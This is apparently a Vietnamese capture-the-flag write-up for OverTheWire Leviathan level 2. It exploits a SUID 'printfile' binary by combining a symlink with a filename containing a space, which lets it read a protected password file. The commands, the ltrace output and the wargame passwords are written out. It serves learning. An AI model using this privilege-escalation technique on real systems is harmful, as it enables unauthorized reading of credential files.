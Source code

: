 # 🧪 Leviathan Level 2 Writeup

> **Wargame:** Leviathan – OverTheWire  
> **Level:** leviathan2 → leviathan3  
> **Target:** Tìm mật khẩu cho user `leviathan3`

---

## 🖥️ SSH Đăng nhập

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
Password: NsN1HwFoyN
```

## 🔎 Cách thực hiện:   
**Payload:**   
```bash
ls
./printfile /etc/leviathan_pass/leviathan3
mkdir /tmp/lv2
cd /tmp/lv2
ltrace ~/printfile /etc/leviathan_pass/leviathan2
ln -s /etc/leviathan_pass/leviathan3 tus
touch "tus hehe"
~/printfile "tus hehe"
```

-Ta có 1 execute file SUID ```printfile```:    
```bash
-r-sr-x---   1 leviathan3 leviathan2 15072 Jul 28 19:05 printfile
```

-Thử dùng file này để lấy nội dung của /etc/leviathan_pass/leviathan3 và ra được:   
```bash
./printfile /etc/leviathan_pass/leviathan3

You cant have that file...
```

-Dùng ltrace đọc thử function call của ```printfile```:   
![alt text](image/Leviathan2-1.png)

+Ở đây ta thấy ```printfile``` dùng hàm **access()** để thực hiện kiểm tra đúng quyền thực sự mà user đang có (check ```RUID```)   
-->Vì thế ta bị chặn ngay khi chạm tới file ```/leviathan3```   

-Khi thử lại với ```/leviathan2```:   
```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2

__libc_start_main(0x80490ed, 2, 0xffffd434, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                     = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")           = 39
geteuid()                                                                                                       = 12002
geteuid()                                                                                                       = 12002
setreuid(12002, 12002)                                                                                          = 0
system("/bin/cat /etc/leviathan_pass/lev"...NsN1HwFoyN
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                          = 0
+++ exited (status 0) +++
```

-->Ta thấy ở đoạn ```/bin/cat %s``` ==> Chuỗi nhập vào được giữ nguyên xi và đẩy tới hàm system để gọi /bin/cat/...

-->Sẽ ra sao nếu 1 file có space như ```tus hehe``` được chạy với ```./printfile``` với ```tus``` là symlink tới ```/etc/leviathan_pass/leviathan3```.   

-Bước 1: Tạo symlink ```tus``` tới ```/etc/leviathan_pass/leviathan3```:    
```bash
leviathan2@leviathan:/tmp/lv2$ ls -l
total 0
lrwxrwxrwx 1 leviathan2 leviathan2 30 Aug 13 03:22 tus -> /etc/leviathan_pass/leviathan3
```

-Bước 2: Tạo empty file với tên "tus hehe":    
```bash
touch "tus hehe"
leviathan2@leviathan:/tmp/lv2$ ls -l
total 0
lrwxrwxrwx 1 leviathan2 leviathan2 30 Aug 13 03:22 tus -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2  0 Aug 13 03:26 tus hehe
```

-Bước 3: chạy lệnh ```~/printfile "tus hehe": 
```bash
 ~/printfile "tus hehe"
f0n8h2iWLP
/bin/cat: hehe: No such file or directory
```

### Các bước hoạt động của ```printfile```:   
-Dùng hàm access() để kiểm tra quyền dựa trên ```RUID``` (leviathan2) nhưng khi tới hàm system() thì quyền sẽ được tạm thời đổi thành ```EUID```(leviathan3) do file là ```SUID```

### Key: f0n8h2iWLP